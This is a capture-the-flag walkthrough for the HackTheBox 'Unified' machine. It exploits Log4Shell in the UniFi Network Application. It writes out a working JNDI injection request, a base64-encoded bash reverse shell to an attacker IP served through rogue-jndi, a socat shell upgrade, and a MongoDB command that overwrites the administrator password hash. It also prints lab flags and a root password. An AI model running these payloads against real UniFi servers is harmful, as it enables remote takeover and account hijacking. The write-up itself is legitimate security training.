


# HACKTHEBOX - Unified

```bash
export IP=10.129.72.187
```

## Enumeration
```bash
sudo nmap -sV -sC -v -oN nmap.txt $IP
```

**nmap result**:
```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Issuer: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
.....
1 service unrecognized despite returning data....

rustscan: 8880/tcp open  cddbp-alt?
```

**Port 8443**: `Unifi 6.4.54`

`A vulnerable` third-party library used in `UniFi Network Version 6.5.53 and earlier` `(Log4J CVE-2021-44228)` allows a malicious actor to control the application. 

This vulnerability is `fixed` in UniFi Network Version 6.5.54 and later.

Ok Log4j, Unifi network vulnerability: https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi

Automate log4j vulnerabilities in unifi software: https://github.com/puzzlepeaches/Log4jUnifi 

**Summary**:

The `Unifi Network Application` is used to `manage Ubiquiti software and hardware solutions`. This software suite can be installed natively on Linux and Windows or within a Linux Docker container. 

The application is most commonly hosted on `port 8443` via HTTPS. Navigating to the webpage for the application in a web browser will look something like the following:



Versions prior to 6.5.54 are vulnerable to remote code execution. Once you’ve identified a vulnerable instance, it’s simple to walk through exploitation.

## Exploitation
The vulnerability is in the `rememberme` (or in some versions the username) value issued in the login request shown below:
```
https://10.129.72.187:8443/api/login
Host: ....

{"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
```

`Test for the vulnerability` in localhost, or you can test by trigger a dns query

```bash
nc -nlvp 8989
curl 'https://10.129.72.187:8443/api/login' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://10.10.14.52:8989}","strict":true}' --compressed --insecure
# got connection --> vulnerable!!
```

First, you need to clone and build the tool, `rogue-jndi`(The project *contains LDAP & HTTP servers* for exploiting insecure-by-default Java JNDI API) from the GitHub:
```bash
# One-liner
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && sudo apt install maven && mvn package
```

Once the Jar is compiled, you’ll have to craft a command to deliver the reverse shell. 
```bash
echo 'bash -c bash -i >&/dev/tcp/10.10.14.52/4444 0>&1' | base64
# YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNTIvNDQ0NCAwPiYxCg==
```

With that Base64 output, build your command in `rogue-jndi`, then start your `rogue-jndi LDAP server` up.
```bash
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNTIvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.52"
```

To get a reverse shell, issue this cURL command:
```bash
curl 'https://10.129.72.187:8443/api/login' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://10.10.14.52:1389/o=tomcat}","strict":true}' --compressed --insecure
```

Start up a netcat listener on the port you specified while building your shell and issue the cURL command. If you did everything correctly, you should see UniFi Network Application grab the payload from rogue-jndi and then get a callback: (picture here!!)


We got reverse shell!!

What tool do we use to intercept the traffic, indicating the attack was successful: `tcpdump`

**user flag**: `HTB{6ced1a6a89e666c0620cdb10262XXXXX}`

## Post Exploitation
```bash
for PORT in {1..1000}; do timeout 1s bash -c "</dev/tcp/localhost/$PORT" > /dev/null; done
```
nothing, just for bash!!

Upgrade to interactive shell
```bash
which python # no!
which python3 # no!

# Using socat
# Host socat standalone binaries and from remote machine `curl -o`
# Kali Machine
socat file:`tty`,raw,echo=0 tcp-listen:4445
# Remote Machine
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.52:4445
```

What port do we need to inspect intercepted traffic for: `LDAP port: 389` (our server LDAP port)

What port is the MongoDB service running on: `27117`
```bash
ps aux | grep mongo
# unifi         67  0.4  4.2 1099648 85800 ?       Sl   11:49   0:44 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
# unifi      20857  0.0  0.0  11468  1112 pts/0    S+   14:39   0:00 grep mongo
```

Connect to MongoDB:
```bash
locate mongo # /usr/bin/mongo
/usr/bin/mongo --port 27117
```

MongoDB Command:
```bash
dbs; # default database --> ace
show databases
use ace
show collections # admin
db.admin.find() # enumerate users
```

What is the default database name for UniFi applications: `ace`

```json
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.", ......}
```

What is the function to add data to the database in MongoDB: `db.admin.insert()`

What is the function we use to update users within the database in MongoDB: `db.admin.update()`

**hints**: It's not crackable
https://community.spiceworks.com/topic/2175763-hash-tool-to-reset-ubiquiti-unifi-controller-admin-password
```bash
# http://sha512crypt.pw/
# hash: hello -> $6$CU3a0DfD5u.QeV12$5NWCSeU4SsCxabV9bSNotwhoacGVqCfT1Lf9KVFIyc8XvW.N4OE9Hl.j1NGxjPeyHEL1/E8lbD5XNHBwFjrSn.

# overwrite administrator password
db.admin.update( { name: "administrator" }, {$set: { x_shadow: "$6$CU3a0DfD5u.QeV12$5NWCSeU4SsCxabV9bSNotwhoacGVqCfT1Lf9KVFIyc8XvW.N4OE9Hl.j1NGxjPeyHEL1/E8lbD5XNHBwFjrSn." } } );
# WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

Back to the Controller Login Pannel, log in with: `administrator:hello`



**SSH root password**: `NotACrackablePassword4U2022`
```bash
ssh root@$IP
# NotACrackablePassword4U2022
```

**root flag**: `HTB{e50bc93c75b634e4b272d2f771c33681}`
